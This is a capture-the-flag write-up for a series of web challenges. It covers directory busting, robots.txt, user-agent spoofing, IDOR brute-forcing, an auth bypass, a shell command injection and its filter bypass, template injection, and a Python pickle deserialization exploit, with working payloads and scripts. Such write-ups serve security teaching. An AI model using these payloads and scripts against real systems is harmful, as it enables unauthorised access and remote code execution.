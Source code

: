 +++
title = "Web"
weight = 3
+++

## we01

https://ggcs-we01.allyourbases.co/

the blurb said that the flag was on some common directory and said to look for a list of common directories.  

I tossed a dirbuster at it and found a valid directory at https://ggcs-we01.allyourbases.co/sample/

the flag was at https://ggcs-we01.allyourbases.co/sample/flag.txt

flag: `bustING_direTORies_8918`

## we02

https://ggcs-we02.allyourbases.co/

the flag was hidden in one of the webpack js files - particularly https://ggcs-we02.allyourbases.co/component---src-pages-else-js-b41975d5a1f03391fee1.js

I saw it in the source code and noticed that it didn't get loaded.  After checking it out manually i found the flag.  

flag: `webPACkEd-AlRiGHT_7182`

## we03

https://ggcs-we03.allyourbases.co/

the blurb mentioned a secret page which made me think about robots.txt.  I checked it out and it had a disallow directive for https://ggcs-we03.allyourbases.co/61829201829023.html.  The flag was on that page. 

flag: `NO_CrAwLing_Plz_0192`

## we04

https://ggcs-we04.allyourbases.co/

There was some javascript making a request and passing the user agent.  I assumed that the purpose was to allow search engines to read it for SEO purposes.  I set my user agent to googlebot (`Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)`) and it gave me the flag.  
flag: `CrawlING-So-SlOwLY-8199`

## wm01

https://ggcs-wm01.allyourbases.co/

basic shell command injection.  The flag could be read with `/root; cat .flag.txt`

flag: `unSAFE_eXecution_42`

## wm02

https://ggcs-wm02.allyourbases.co/index.html

I looked at the source and found that if you had a cookie name `login` with and id set but nothing else it would fill out the rest of the data.  I wrote a python script to incrementally try every number until 100.  The admin was id 33.  

```python
import requests
import json
url = "https://oo5apsmnc8.execute-api.eu-west-1.amazonaws.com/stag/wm02"
for i in range(100):
	r = requests.post(url, data = json.dumps({"id": i}))
	print(r.text)
```

flag: `IncREMentaLl_SessIoNs-1920`

## wm03

https://ggcs-wm03.allyourbases.co/

I tried a couple other user IDs with getUser but that didn't pan out.  I then tried to send a command to list users and it responsed with a list of commands
```json
        "commands": [
            "getUser",
            "setUser",
            "getFlag",
            "config"
        ]
```

I tried getFlag but it required an authentication token.  POSTing config responded with the token and then I was able to retrieve the flag. 

flag: `LAx_AUThEntiCaTION-:(`

## wh01

you can do command injection with `\n` and `\t` to bypass the blocked characters.  the flag is at /var/task/.../.flag.txt.  I hate this so much, i missed it the first time around and had to brute force every file on the system to find it.  

i used this script to make operation of it a little easier.  

```python
import json
import requests

url = "https://oo5apsmnc8.execute-api.eu-west-1.amazonaws.com/stag/wh01"

while True:
	base_cmd = "/root\\n"
	cmd = base_cmd + input("> ")
	print(cmd)
	cmd = cmd.replace(" ","\\t")
	path = f"{{\"path\": \"{cmd}\"}}"
	print("path: ", path)
	# path = path.format()
	r = requests.post(url, data = path)
	print(r.json()['body'])
```

flag: `SCUffeD_FiLTERing_1000`

## wh02

I noticed that whenever displaying a 404 the page would show the path i failed to access.  I played around with it for a while trying out different injections until I noticed that `{{7 * 7}}` evaluated.  I then tried `{{/* locals() */}}` and received
```
It appears you got lost on the way to: /{'_Context__self': , 'dict': , 'lipsum': , 'cycler': , 'joiner': , 'namespace': , 'dir': , 'help': Type help() for interactive help, or help(object) for help about object., 'locals': , 'globals': , 'laksnd8quoqjknadaklsd9aodu892ja': 'Flag: tEmPlATes-R-FuNN-2391'} of None>, '_Context__obj': , 'args': (), 'kwargs': {}, '__traceback_hide__': True, 'fn': , 'fn_type': 'environmentfunction'}`
```

flag: `tEmPlATes-R-FuNN-2391`

## wh03

https://ggcs-wh03.allyourbases.co/

the website has a bunch of gross javascript and if it takes you more than 100 ms to skip the breakpoint it'll reload.  to bypass this I turned off javascript and then executed the relevant code manually.  I searched around the code until i saw something that looked like it printed the flag (the function u).  It required x to be equal to seq for it to print the flag so i cracked open the js console and set it manually, then called u().  


flag: `rANDom_VICTORy_113`


## wx01

https://ggcs-wx01.allyourbases.co/

python pickle deserialization exploit.  After noticing it was a pickle vuln from the stack trace i got when passing it a malformed data cookie, I wrote up a vuln to print the flag.  The flag was stored in a local variable so my exploit takes advantage of eval to execute code in the context of the server.  

```python
import pickle
import codecs
import base64
import os
class RCE:
    def __reduce__(self):
        return eval, ("{'name': flag}",)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE(), protocol=0)
    print(base64.urlsafe_b64encode(pickled))

```

flag: `suPER_SeRiAL-bR0_02891`
